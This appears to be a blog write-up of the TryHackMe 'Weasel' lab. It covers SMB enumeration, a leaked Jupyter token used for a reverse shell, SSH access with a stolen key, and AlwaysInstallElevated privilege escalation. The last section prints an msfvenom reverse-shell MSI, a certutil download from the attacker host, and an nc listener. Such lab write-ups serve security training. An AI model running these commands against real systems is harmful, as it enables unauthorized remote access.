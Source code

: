 ```yaml
---
title: THM-Weasel
categories: [Writeup tryhackme]
tags: [tryhackme, pentest]
---
```



I think the data science team has been a bit fast and loose with their project resources.

#### Nmap Result

```bash 
nmap -sV -sC -O -T4 -n -Pn -oA fastscan -Pn
```

![]({{site.baseurl}}/assets/img/2023-05-23-THM-Weasel-1.png){:width="70%"}

Based on the Nmap results, it appears that the machine is likely running a Windows operating system. This conclusion is supported by the presence of open ports associated with the SMB (Server Message Block) protocol, which is commonly used in Windows environments for file sharing and network communication. 

Additionally, the detection of a Jupyter Notebook deployment suggests that the machine may also be used for data science or development purposes. Jupyter Notebook is a popular platform for interactive computing, often utilized by data scientists and researchers. Taken together, the presence of open ports related to SMB and the availability of a Jupyter Notebook deployment point towards a Windows machine with potential data science or development activities.

#### Smb enumeration 

```bash 
smbclient --no-pass -L //10.10.215.176
```

![]({{site.baseurl}}/assets/img/2023-05-23-THM-Weasel-2.png){:width="70%"}

we can see the available shares on a remote SMB server at the machine  there is available share named "datasci-team". but no additional comment or description is provided.

Let's connect to the datasci-team using smbclient. 
```bash 
smbclient --no-pass //10.10.215.176/datasci-team
```

![]({{site.baseurl}}/assets/img/2023-05-23-THM-Weasel-3.png){:width="70%"}

![]({{site.baseurl}}/assets/img/2023-05-23-THM-Weasel-4.png){:width="70%"}

![]({{site.baseurl}}/assets/img/2023-05-23-THM-Weasel-5.png){:width="70%"}

It appears that the majority of the files are related to Weasel research. However, a noteworthy file of interest has been discovered. Within the "misc" directory, there is a file containing a Jupyter token, which could potentially provide access to the Jupyter Notebook instance.

#### Jupyter notebook 

![]({{site.baseurl}}/assets/img/2023-05-23-THM-Weasel-6.png){:width="70%"}

With the Jupyter token we obtained, we can easily gain access to the Jupyter Notebook instance. By using this token, we can authenticate ourselves and access the features and functionalities provided by Jupyter Notebook.

![]({{site.baseurl}}/assets/img/2023-05-23-THM-Weasel-7.png){:width="70%"}

![]({{site.baseurl}}/assets/img/2023-05-23-THM-Weasel-8.png){:width="70%"}

By utilizing the functionality of Jupyter Notebook, it is possible to exploit a reverse shell technique, enabling us to gain access to the shell of the target machine.



#### Adding key to SSH Agent

Let's examine the user accounts by reviewing the contents of the /etc/passwd file. This file contains information about the users on the system, including their usernames, user IDs, group IDs, home directories, and default shells.

![]({{site.baseurl}}/assets/img/2023-05-23-THM-Weasel-9.png){:width="70%"}

![]({{site.baseurl}}/assets/img/2023-05-23-THM-Weasel-10.png){:width="70%"}

Upon inspecting the home directory of dev-datasci, we discovered several files associated with Jupyter Notebook and Anaconda. Of particular interest to us is the file named dev-datasci-lowpriv_id_ed25519, which we can utilize to establish a connection to the previously identified open SSH. 

We can simply add the obtained ssh keys using the commands below and connect the the ssh keys.
```bash
eval "$(ssh-agent -s)"
ssh-add dev-datasci-lowpriv_id_ed25519
ssh -i dev-datasci-lowpriv_id_ed25519 dev-datasci-lowpriv@10.10.215.176
```


#### User Flag

![]({{site.baseurl}}/assets/img/2023-05-23-THM-Weasel-11.png){:width="70%"}

Once you have successfully connected to the SSH, you can easily retrieve the user flag located in the dev-datasci-lowpriv directory on the Desktop.

![]({{site.baseurl}}/assets/img/2023-05-23-THM-Weasel-12.png){:width="70%"}

![]({{site.baseurl}}/assets/img/2023-05-23-THM-Weasel-13.png){:width="70%"}


![]({{site.baseurl}}/assets/img/2023-05-23-THM-Weasel-14.png){:width="70%"}

Take note the results of the default creds of the Default User Name.

#### Privilege Escalation 

By executing the "net user" command, we can observe that there are a total of six user accounts, including our own. Our focus is on the administrator account.

![]({{site.baseurl}}/assets/img/2023-05-23-THM-Weasel.png){:width="70%"}

Through a registry query, it has been determined that the "AlwaysInstallElevated" key is currently set to 1. This configuration suggests that privilege escalation can be achieved by utilizing the "msiexec" command. As a next step, we can generate an MSI payload to exploit this opportunity.

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<attacker-ip-address> LPORT=4445 -f msi -o reverse.msi
```

```bast 
# From our Machine hosting the payload
sudo python3 -m http.sever 80
```

```bash
# From Victim(Target) Machine
certutil -urlcache -split -f http://10.8.120.163/reverse.msi
```

To exfiltrate our msfvenom payload to the target machine, we can utilize Python and certutil. Following that, we can proceed with privilege escalation by leveraging the "AlwaysInstallElevated" registry setting.

```bash 
runas /user:dev-datasci-lowpriv "msiexec /i C:\Users\dev-datasci-lowpriv\Downloads\rev.msi /qn"
```

```
# listener 
nc -lvnp 4445
```

![]({{site.baseurl}}/assets/img/2023-05-23-THM-Weasel-15.png){:width="70%"}

#### Root Flag 

![]({{site.baseurl}}/assets/img/2023-05-23-THM-Weasel-16.png){:width="70%"}

Once you have successfully gained access, you can effortlessly retrieve the root flag located in the Administrator directory on the Desktop.

--- 
#### References
- https://tryhackme.com/room/weasel
- https://medium.com/risan/upgrade-your-ssh-key-to-ed25519-c6e8d60d3c54